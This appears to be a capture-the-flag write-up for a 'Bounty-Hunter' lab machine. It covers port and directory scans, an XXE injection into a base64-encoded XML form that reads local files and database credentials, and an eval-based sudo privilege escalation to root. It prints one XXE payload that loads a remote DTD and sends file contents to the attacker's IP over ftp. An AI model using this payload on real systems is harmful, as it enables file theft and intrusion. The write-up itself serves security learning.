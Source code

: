 # Bounty-Hunter

Starting with nmap scan to discover active ports and service versions:

```python
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-24 23:04 -03
Nmap scan report for 10.10.11.100
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

Directory scan:

```python
===============================================================
2021/07/24 23:08:43 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 281]
/.hta                 (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 281]
/assets               (Status: 301) [Size: 321] [--> http://bountyhunter.htb/assets/]
/css                  (Status: 301) [Size: 318] [--> http://bountyhunter.htb/css/]   
/index.php            (Status: 200) [Size: 25169]                                    
/js                   (Status: 301) [Size: 317] [--> http://bountyhunter.htb/js/]    
/resources            (Status: 301) [Size: 324] [--> http://bountyhunter.htb/resources/]
/server-status        (Status: 403) [Size: 281]
/db.php
/portal.php
                                         
===============================================================
```

First contact with the application:

![Bounty-Hunter/Untitled.png](Bounty-Hunter/Untitled.png)

Resources page:

![Bounty-Hunter/Untitled%201.png](Bounty-Hunter/Untitled%201.png)

![Bounty-Hunter/Untitled%202.png](Bounty-Hunter/Untitled%202.png)

The payload with html encode bypass the filters allowing command injection:

![Bounty-Hunter/Untitled%203.png](Bounty-Hunter/Untitled%203.png)

Working well:

Testing website i could realize that some characters are filtered:

```python
filtered:
<, &, 

allowed:
>, ;, |, +, -, (), "a", #a, /*aa*/
```

![Bounty-Hunter/Untitled%204.png](Bounty-Hunter/Untitled%204.png)

Analyzing requests we can define what occurred in web application, it receives XML data encoded in base64, maybe creating new XML entity returning local files and calling XML entity in tags already existing.

Intercepting request with BurpSuite we can get a better overview: 

![Bounty-Hunter/Untitled%205.png](Bounty-Hunter/Untitled%205.png)

But the problem here is it, the code stay weird, But the problem is that the Base64 are URL encoded with signals (+ and =) to %2B and %3B %B, just change it to working decode.

![Bounty-Hunter/Untitled%206.png](Bounty-Hunter/Untitled%206.png)

Changing %2B to +:

![Bounty-Hunter/Untitled%207.png](Bounty-Hunter/Untitled%207.png)

Beautiful decode:

![Bounty-Hunter/Untitled%208.png](Bounty-Hunter/Untitled%208.png)

Now we will insert XML entity to return local files and calling function in title tag: This is a XXE attack.

![Bounty-Hunter/Untitled%209.png](Bounty-Hunter/Untitled%209.png)

Encoding again but remember, change the = %3B and + signal to %2B

![Bounty-Hunter/Untitled%2010.png](Bounty-Hunter/Untitled%2010.png)

In the BurpSuite to facility your life, use shortcuts CTRL + B to encode base64 and CTRL + U to URL encode. 

## XXE WORK!

![Bounty-Hunter/Untitled%2011.png](Bounty-Hunter/Untitled%2011.png)

The users existing with /bin/bash are development and root, now we search the id_rsa key to login.

![Bounty-Hunter/Untitled%2012.png](Bounty-Hunter/Untitled%2012.png)

Testing ftp connection with server using the XML:

```python
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://test:%file;@10.10.14.169:443/'>"> %all;

<!DOCTYPE svg [
<!ENTITY % file SYSTEM "file:///">
<!ENTITY % dtd SYSTEM "http://10.10.14.169:8000/remote_ftp.dtd"> %dtd;]>

```

I tried receive connections from ftp server and NetCat server 

![Bounty-Hunter/Untitled%2013.png](Bounty-Hunter/Untitled%2013.png)

Searching more, the db.php file contains the database credentials, just take this credentials and login in the machine with the user development. 

![Bounty-Hunter/Untitled%2014.png](Bounty-Hunter/Untitled%2014.png)

Size 0 because the code doesn't have HTML to return in request just PHP.

![Bounty-Hunter/Untitled%2015.png](Bounty-Hunter/Untitled%2015.png)

Sudo -l command shows the binary that is exploitable, you must have to do a boolean logic to give the root user.

The logic to privilege escalation, basically it contains a logic to pass the if statements and the last logic has a eval function, we can try execute code with it.

![Bounty-Hunter/Untitled%2016.png](Bounty-Hunter/Untitled%2016.png)

When you run, it returns the root shell.

I wrote a article talking more about this: [https://sidhawks.medium.com/exploração-python-eval-function-25162ee2f093](https://sidhawks.medium.com/explora%C3%A7%C3%A3o-python-eval-function-25162ee2f093)